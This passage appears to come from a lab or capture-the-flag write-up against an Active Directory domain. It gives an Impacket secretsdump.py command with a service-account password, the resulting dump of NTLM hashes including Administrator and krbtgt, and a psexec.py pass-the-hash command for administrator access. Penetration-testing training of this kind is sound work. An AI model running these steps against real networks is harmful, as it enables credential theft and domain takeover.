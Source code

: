 ### secretsdump.py

`secretsdump.py -dc-ip 10.10.10.30 MEGACORP.local/svc_bes:Sheffield19@10.10.10.30`

This give us `administrator` NTLM hash

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:07ab558646ee84d3bcba69f2ed390d14:::
```

### psexec.py

We can now attempt a pass-the-hash attack by supplying the hash in a `psexec.py` command

`psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML:hash>`


